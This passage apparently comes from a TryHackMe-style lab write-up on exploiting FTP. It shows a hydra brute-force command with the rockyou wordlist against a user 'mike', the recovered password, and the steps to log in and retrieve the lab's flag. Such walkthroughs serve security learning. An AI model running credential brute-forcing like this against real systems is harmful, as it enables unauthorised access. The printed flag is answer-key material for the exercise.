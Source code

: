 ```
Mike 
```

A possible username can be `Mike`.

# [Task 10] - Exploiting FTP

![Task 10](/media/thm/network-services/task-10.png)

* What is the password for the user "mike"?

We use hydra : `hydra -t 4 -l mike -P rockyou.txt -vV ip_machine ftp` and find the password : **password**.

* What is ftp.txt?

We connecte with ftp : `ftp ip_machine` with the login `mike` and the password `password`.  
We use `ls` and find the file `ftp.txt`. We get it with `get ftp.txt`. We read it with the command `cat ftp.txt`.  
The flag is `THM{y0u_g0t_th3_ftp_fl4g}`.